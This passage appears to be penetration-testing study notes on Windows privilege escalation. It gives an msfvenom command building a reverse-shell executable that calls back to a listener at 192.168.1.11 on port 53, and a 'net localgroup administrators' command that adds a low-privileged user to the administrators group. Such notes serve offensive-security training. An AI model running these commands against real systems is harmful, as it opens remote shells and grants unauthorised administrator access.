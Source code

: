 <mark style="background: #ADCCFFA6;">msfvenom</mark>

If we can execute commands with admin privileges, a reverse shell generated by msfvenom works nicely:

```
msfvenom -p windows/x64/shell_reverse_tcp
LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe
```


This reverse shell can be caught using netcat or Metasploit’s own multi/handler.



<mark style="background: #ADCCFFA6;">RDP</mark>

Alternatively, if RDP is available (or we can enable it), we can add our low privileged user to the administrators group and then spawn an administrator command prompt via the GUI.


```
net localgroup administrators <username> /add
```


